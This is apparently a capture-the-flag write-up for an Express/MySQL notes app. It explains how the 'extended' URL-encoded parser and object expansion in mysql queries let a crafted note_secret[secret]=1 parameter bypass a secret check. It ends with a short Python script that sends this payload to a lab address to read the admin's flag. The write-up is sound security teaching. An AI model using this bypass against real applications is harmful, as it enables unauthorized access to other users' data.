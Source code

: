 ### Reading the source code

For the purpose of simplicity I will list here only important functions and files,

for more details you can view the full files in this directory.

**Init.db**
```SQL
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL UNIQUE,
  `password` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;

CREATE TABLE IF NOT EXISTS `notes` (
  `note_id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `secret` varchar(255) NOT NULL,
  `note` varchar(255) NOT NULL,
  PRIMARY KEY (`note_id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```

**Start of index.js**
```JS
const express = require('express');
const bodyParser = require('body-parser');
const crypto=require('crypto');
var session = require('express-session');
const db = require('./database');
const middleware = require('./middlewares');

const app = express();


app.use(bodyParser.urlencoded({
extended: true
}))

app.use(session({
    secret: crypto.randomBytes(32).toString("hex"),
    resave: true,
    saveUninitialized: true
}));
```
**View endpoint**
```JS
app.get('/viewNote', middleware.auth, (req, res) => {
    const { note_id,note_secret } = req.query;

    if (note_id && note_secret){
        db.getNoteById(note_id, note_secret, (err, notes) => {
            if (err) {
            return res.status(500).json({ error: 'Internal Server Error' });
            }
            return res.json(notes);
        });
    }
    else
    {
        return res.status(400).json({"Error":"Missing required data"});
    }
});
```

**Get note by ID endpoint**
```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }
    callback(null, results);
  });
}
```

**Insert flag as note in the admin account**
```JS
function insertAdminNoteOnce(callback) {
  const checkNoteQuery = 'SELECT COUNT(*) AS count FROM notes WHERE username = "admin"';
  const insertNoteQuery = 'INSERT INTO notes(username,note,secret)values(?,?,?)';
  const flag = process.env.DYN_FLAG || "placeholder";
  const secret = crypto.randomBytes(32).toString("hex");

  pool.query(checkNoteQuery, [], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }

    const NoteCount = results[0].count;

    if (NoteCount === 0) {
      pool.query(insertNoteQuery, ["admin", flag, secret], (err, results) => {
        if (err) {
          console.error('Error executing query:', err);
          callback(err, null);
          return;
        }
        console.log(`Admin Note inserted successfully with this secret ${secret}`);
        callback(null, results);
      });
    } else {
      console.log('Admin Note already exists. No insertion needed.');
      callback(null, null);
    }
  });
}
```

So this application basically have these functionalities :

- Register an account
- Login to account
- Profile view
- Add note
- View note

Also, when starting the program it automatically calls `insertAdminNoteOnce` function, which will insert the flag as a note with a random 32 hex secret in admin account.

To view a note you need to provide 2 GET parameters : `note_id` & `note_secret`.

So how can we view the flag? Clearly, we can't bruteforce a 32 random bytes secret.

### Analyzing

We can easily get the note id, by looking at the table creation : `AUTO_INCREMENT=66` which means that the ID starts from 66.

For the note secret, looking at the first few lines of `index.js` we can see an interesting line :
```JS
app.use(bodyParser.urlencoded({
extended: true
}))
```

What does `extended` means? From expressjs docs :

> The extended option allows to choose between parsing the URL-encoded data with the querystring library (when false) or the qs library (when true). The “extended” syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded.

Perfect. so if we passed our GET query like this : `/viewNote?note_id=66&note_secret[c]=d`

It would be interpreted as :
```JS
note_id = 66
note_secret= {'c':'d'}
```

The viewNote route will then call the `getNotebyId` function, which will basically construct a SELECT query with our inputs :

```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret],
```

When you pass a javascript object to SQL, it treats the key as column and the value as the value of that column, in simpler terms our query is going to be like this :

```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `c` = 'd'
```

Backticks (`) meaning in SQL : 

> In MySQL, backticks are special syntax used for encapsulating identifiers like table and column names.

So if `c` was a column name, it will compare all the values in that column with `secret` which would result in `true` ( boolean value ) if at least one value appeared in both columns (c and secret) after that it will compare it with `'d'`.

So if we passed this GET query : `/viewNote?note_id=66&note_secret[secret]=1`

It would be interpreted in SQL as :
```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `secret` = '1'
```

so ```secret = `secret` = 1``` will evaluate to ```true = '1'``` which is always true in MySQL.

### Exploiting

Because of jailing we need to write a simple and fast script using `requests` session :

```py
import requests


sess = requests.Session()


url = "http://169.254.55.45:5000/"


data = {"username":"yonko123","password":"yonko123"}

print(sess.post(url+"register", data=data).text)

print(sess.post(url+"login", data=data).text)

print(sess.get(url+"viewNote?note_id=66&note_secret[secret]=1").text)
```

And we get the flag :

![Screenshot (202)](https://github.com/user-attachments/assets/a9bf7ae8-4e41-422c-9d30-28b6395a4052)
